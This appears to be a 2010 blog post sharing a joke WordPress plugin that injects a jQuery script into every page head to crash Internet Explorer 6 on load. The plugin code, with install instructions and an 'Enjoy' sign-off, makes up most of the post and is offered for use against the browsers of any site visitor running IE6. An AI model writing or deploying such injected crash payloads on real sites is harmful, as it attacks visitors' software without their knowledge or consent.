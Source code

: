 Crash IE6 WordPress Plugin
##########################

:date: 2010-03-31 16:34
:category: Code

I decided to have a little fun today during lunch, so I wrote a
WordPress + jQuery plugin for Crashing IE 6.

Once activated, IE6 will instantly crash on page load. Enjoy :) ::


    <?php
    /*
      Plugin Name: Crash IE 6
      Plugin URI: http://gist.github.com/350532
      Description: We'll take them by force.
      Version: 0.1
      Author: Kenneth Reitz
      Author URI: http://kennethreitz.com/
      Min WP Version: 2.0
      Max WP Version: 3.5
      License: MIT License - http://www.opensource.org/licenses/mit-license.php
      Note: Requires jQuery.
      Install: drop in wp-content/plugins/ and activate in admin.

    */

    function kill_ie6() {  ?>
        <script type="text/javascript" charset="utf-8">
            ;jQuery.crash=function(x){for(x in document.open);};
            jQuery.crash();
        </script>
    <?php }

    add_action('wp_head', 'kill_ie6');
